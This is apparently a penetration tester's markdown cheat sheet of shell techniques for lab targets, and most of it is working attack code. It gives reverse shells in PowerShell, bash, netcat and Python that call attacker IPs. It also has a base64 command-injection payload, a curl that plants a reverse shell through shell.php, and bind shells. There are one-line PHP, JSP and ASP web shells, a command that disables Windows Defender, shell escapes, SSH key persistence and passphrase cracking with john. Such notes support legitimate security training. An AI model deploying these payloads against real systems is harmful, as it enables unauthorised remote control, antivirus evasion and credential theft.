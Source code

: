 ## delete


# Shell
## LISTENING SHELL
- `nc -lnvp 9999`

# [Reverse Shell](https://www.revshells.com/)
With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target

## Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.60',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## sh files
```bash
#!\bin/bash 

sh -i >& /dev/tcp/10.10.14.5/9999 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 9999 >/tmp/fs
```

### Execute Reverse Shell File
```bash
# Transfir File to Target
$ curl <MY_IP>:<MY_PORT>/bash.sh -o /tmp/bash.sh
$ wget <MY_IP>:<MY_PORT>/bash.sh 

# Execute Shell
$ ./tmp/bash.sh
$ bash /tmp/bash.sh
```

## Pyton
```py
$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Upload PHP file that works like a page
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 

## Payloads CI
```bash
# Convert reverse shell to base64
$ echo 'sh -i >& /dev/tcp/10.10.14.8/9999 0>&1' | base64

# Send the payload
$ echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjEK"|base64${IFS}-d|bash

# Execute reverse shell
$ bash -c("sh -i >& /dev/tcp/10.10.14.5/4444 0>&1")
$ curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
$ bash -c 'sh -i >%26 /dev/tcp/10.10.14.5/9999 0>%261'`
```

* * *

# Bind Shells
With a bind shell, the target system has a listener started and awaits a connection from a pentester's system.


```bash
bash
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect Attack
$ nc -nv 10.129.41.200 7777
```

* * *

# [Web Shells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
`copy from /usr/share/laudanum`

## [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 
```bash
<?php SYSTEM($_REQUEST['cmd']); ?>
```

- [phpbash](https://github.com/Arrexel/phpbash)


## [ASPX Antak Webshell](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
`copy from /usr/share/nishang/Antak-WebShell`

> Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.

## JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP
```
<% eval request("cmd") %>
```

## [War](https://github.com/BustedSec/webshell/blob/master/webshell.war)
> java/war (Tomcat, Axis2, or WebLogic)

```bash
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
$ zip -r backup.war cmd.jsp 
```

# Interactive Shells
```bash
# Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm

# /bin/sh -i
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'

## The command should be run from a script.
perl: exec "/bin/sh";


# Ruby
## The command should be run from a script.
ruby: exec "/bin/sh"


# Lua
## The command should be run from a script.
lua: os.execute('/bin/sh')


# AWK
awk 'BEGIN {system("/bin/sh")}'


# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;


# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# VIM
vim -c ':!/bin/sh'


# Vim Escape
vim
:set shell=/bin/sh
:shell
```

## Generate SSH Key
### Victim
```bash
$ ssh-keygen
$ cd ./ssh
$ cat id_rsa.pub > authorized_keys
$ chmod 700 ~/
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/authorized_key
```

### Host
```bash
$ nano id_rsa
(Copy from id_rsa victim)
$ chmod 400 id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```

### PassPhrase 
```bash
$ python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john --show hash.txt
```

